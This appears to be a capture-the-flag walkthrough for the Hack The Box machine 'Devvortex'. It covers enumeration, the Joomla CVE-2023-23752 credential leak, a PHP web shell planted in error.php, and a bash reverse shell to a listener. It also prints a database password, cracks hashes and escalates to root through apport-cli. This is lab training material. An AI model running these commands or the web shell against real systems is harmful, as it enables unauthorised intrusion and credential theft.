

### Task 1
How many open TCP ports are listening on Devvortex?

We can run a nmap to scan the ports on the target ip.

``nmap -sS <target_ip>``

### Task 2
What subdomain is configured on the target's web server?

Navigating to the ip address on the browser we get this nice screen.

This seems that the hostname cannot be resolved. Lets edit the /etc/hosts file to add the ip address to be resolved to the target domain.

``sudo vim /etc/hosts``

Then for finding the subdomain, we can use gobuster vhost since it is often that htb machine will use name-based virtual hosting, that is when multiple names run on a single ip address.

``gobuster vhost -u https://devvortex.htb/ -w usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain``

We now found the subdomain ``dev.devvortex.htb``.

### Task 3

What Content Management System (CMS) is running on dev.devvortex.htb?

We need to add the previous subdomain we found on the hosts file as well so again, we use the command ``sudo vim /etc/hosts``.

For finding the CMS, we can use WhatWeb.

After navigating to ``usr/bin`` directory we can run ``whatweb -a 3 dev.devvortex.htb -v``

From this search, we could not find the CMS. We can try to dig further on the website by doing a gobuster dir seach to explore further endpoints. 

``gobuster dir -u http://dev.devvortex.htb -w common.txt``

From this search we found many endpoints with different status code that will be useful in the following task, one of them is the /administrator endpoint which is usually an interesting finding.

Navigating there we see a usual administrator login that reveals that the CMS used is Joomla.

We csn also find this  looking in the /robots.txt endpoint which is a file that contains the redirections and other info. 

<!--truncate--> 

### Task 4 

Which version of Joomla is running on the target system?

The information about Joomla version is usually on a public facing file that is located on different paths depending on the version of Joomla. It is often that the information is stores under modules diretory or under libraries but this varies. After a google search lookup we find different sources including https://www.itoctopus.com/how-to-quickly-know-the-version-of-any-joomla-website. Finally, navigating to ``http://dev.devvortex.htb/administrator/manifests/files/joomla.xml`` we find the Joomla version.

### Task 5

What is the 2023 CVE ID for an information disclosure vulnerability in the version of Joomla running on DevVortex?

Searching google for vulnerabilities of the specific Joomla version we found, we quickly find that the CVE-2023-23752 that affects a series of Joomla version including ours.

### Task 6

What is the lewis user's password for the CMS?

We launch metasploit ``msfconsole`` and search for the cve we found before. 

We then ``use 0`` to select the options, then ``set RHOSTS dev.devvortex.htb`` to set the target host and finally ``run`` to run the auxiliary. From this, we successfully get the user's password. 

### Task 7

We can use the credentials from previously to login as administrator on the /administrator endpoint. Navigating to System page we find that there is the template option. Under Site Templates we edit the Cassiopeia Details and Files.

We add this line of code ``system($_GET['cmd']);`` on the error.php file to get a reverse shell. Before navigating to  ``http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=bash -c "bash -i >%26 /dev/tcp/<local_ip>/4444 0>%261"`` we need to open a port listening for connections. We can do this by ``nc -lnvp 4444``. After navigating to that url, we obtain a shell.

First we spawn a proper shell so we don't get stuck onwards. 

``python3 -c 'import pty; pty.spawn("/bin/bash")'``

We can now connect to the database with the credential we found before.

``mysql -u lewis -p``
P4ntherg0t1n5r3c0n##

We list all tables by ``show tables;`` and then ``describe sd4fg_users;`` to see all fields for the user. There, we identfy that this is the table we are asked for by ``select username, id, password from sd4fg_users where username = 'logan';`` and see the hashed password.

### Task 8

From the previous task, we listed the hashed password for the logan user by using the select command. We open a new terminal and store this password on a file named ``logan.hash`` and then we can use john the ripper to crack the password so we can obtain the plain text from the hashed version. 

### Task 9 

Submit the flag located in the logan user's home directory.

With the password we found from the previous task, we ssh to the server with the user logan. 

In this user's home directory we find the user.txt that contains the user's flag.

### Task 10 

What is the full path to the binary that the lewis user can run with root privileges using sudo?

We can find the path by running ``sudo -l``.

### Task 11

What is the 2023 CVE ID of the privilege escalation vulnerability in the installed version of apport-cli?

With a google search, we find the id of the CVE to be CVE-2023-1326. 

### Task 12

Submit the flag located in the root user's home directory.

We start by running sudo /usr/bin/apport-cli --file-bug

There we press any key:

Then we press any key, and finally the option of view report (V) where we land in a text viewer and obtain the root shell by running ``!/bin/bash``

In the home directory of the root user we find the root.txt which contains the root's flag.